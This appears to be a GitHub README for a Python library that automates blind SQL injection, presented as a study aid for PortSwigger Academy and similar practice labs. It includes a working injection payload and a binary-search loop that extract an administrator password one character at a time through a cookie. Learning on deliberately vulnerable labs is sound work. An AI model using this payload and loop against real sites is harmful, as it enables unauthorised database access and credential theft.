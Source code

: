 # BSQL

Blind SQL injection library

This is a simple python package born out of AppSec research into SQL injection vulnerabilities. After learning how to extract data from applications using blind SQL vulnerabilites and performing a lot of repetetive actions, I decided to create this helper library to support and speed up my learning oportunites.

> this library is not intended to be used as anything other than a study aid - it is not designed to be used for nefarious purposes and there are many tools which brute force blind SQL exploits much more effectively than this library.

## API

## Usage

### PreReq

To use bsqli library you need identify the following data:

|Data|Description|
|:---|:----------|
|Target URL|Web URL containing the blind SQLi vulnerability|
|Headers|HTTP Request headers|
|Cookies|HTTP Regest cookies|
|Vulnerable Param|Identify the HTTP param with blind SQLi vulnerability - in this example it is "`TrackerId`" cookie|
|SQLi statement|SQL injection statement(s)|
|Truthy state|Identify the state change that a `True` SQLi condition causes - in this example the HTTP server returns HTTP content with the message "`Welcome back!`"| 

### Example

BSQLI makes blind SQLi data identification easier, however you first need to understand what blind SQL injection is and how to exploit the vulnerable web page.

>It is illegal to Hack web services without obtaining permission from the authorized owner! Only use this library as part of your study against delberately vulnerable web applications such as WebGoat, Juiceshop, DVWA, PortSwigger Academy tutorials, ...

In this example I will use the PortSwigger Academy SQL injection (blind) tutorials as a basis.

This library allosupports retrieval of data by systematically testing one character at a time.

1. As part of your recon activities, collate the data specified in the **PreReq** section. Commonly you'd use a proxy such as OWASP Zap or PortSwigger Burp suite to aid data gathering.

2. Create a python script and import `bsqli` library. Add the headers and cookies from step one in JSON format strings.

```python
import bsqli

target_url = "https://example-url.net/"
headers = "{ \
  'Host': '', \
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0', \
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8', \
  'Accept-Language': 'en-GB,en;q=0.5', \
  'Accept-Encoding': 'gzip, deflate', \
  'Referer': '', \
  'Upgrade-Insecure-Requests': '1', \
  'Sec-Fetch-Dest': 'document', \
  'Sec-Fetch-Mode': 'navigate', \
  'Sec-Fetch-Site': 'same-origin', \
  'Sec-Fetch-User': '?1', \
  'Te': 'trailers' \
}"
cookies = "{'TrackingId': 'sometracking', 'session': 'somesession3XB7Q9TzmBiHPKxPdAjbl'}"

```

3. Create a callback handler (see API section). The hander manages the HTTP req setup (including SQL injection), call and response handling (SQLi Truthy condition)

```python
# SQLi Truthy condition
def true_response(resp_data, value):
  return resp_data.find(bytes(value, 'utf-8')) != -1

# Handler method [[str, str, int] bool]
# val: search value char
# op: conditional operator
# pos: (optional) character to identify (injected SQL specific)
def password_extraction_handler(val, op, pos):
  sql_passwd_inj = "' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {}, 1) {} '{}".format(pos, op, val)
  req.inject('cookie', 'TrackingId', sql_passwd_inj)

  return true_response(req.get().content, 'Welcome')
```

4. Instantiate `bsqli.SqlIRequest` object and setup input data (in this exampe it's lowercase alphanumeric values)

```python
# lowercase alphanumberic values as per PortSwigger Academy blind SQLi tutorials
data = list(map(str, range(0,10))) + list(string.ascii_lowercase)
req = InjectableHTTPRequest(target_url, headers, cookies)
```

5. Loop through each character in the password to extract the password

```python
password_len = 20 # this value can also be extract using `bsqli`
password = []
for pos in range(1,int(password_len)+1):
  password.append(binary_search(data, password_extraction_handler, pos))
  print('extracting password [%d%%]\r'%(int(pos / password_len * 100)), end="")

print("\nPassword: {}".format("".join(password)), flush=True)
```

## Installation

Fetching / Installing BSQLI is simple. This package is not yet pushed to PyPi so the best way to install it is to `cd` into the repo clone directory and run the following command.

```
pip install .
```

## Repository

https://github.com/mdtetlow/sqli-python

## Requirements

Python 3.6
